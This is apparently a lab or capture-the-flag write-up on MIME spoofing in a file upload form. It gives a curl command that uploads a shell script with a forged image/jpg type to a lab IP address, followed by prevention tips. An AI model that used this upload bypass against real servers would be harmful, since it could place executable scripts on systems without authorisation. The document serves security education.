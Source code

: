 # Vulnerability

MIME spoofing is used by attackers to manipulate the MIME (Multipurpose Internet Mail Extensions) type of a file to bypass security controls and potentially execute malicious code.

# Identification

We have a form with an input that allows us to upload files.

# Resolve

open your terminal on do a request\
create a script file\

```
touch script.sh
```

Use cmd curl

```
curl -X POST -F "uploaded=@/Users/tpinto-m/Desktop/script.sh;type=image/jpg" -F 'Upload=Upload' 'http://10.11.249.210/?page=upload#'
```

# Prevent

- Input Sanitization: Sanitize all user inputs, including file names and content
- Content Validation: Inspect the actual contents of uploaded files, not just the declared MIME type
- File Extension Checks: Verify that file extensions match the expected content type
- Use Framework
- Use secured library

# Resources

https://reqbin.com/req/c-dot4w5a2/curl-post-file
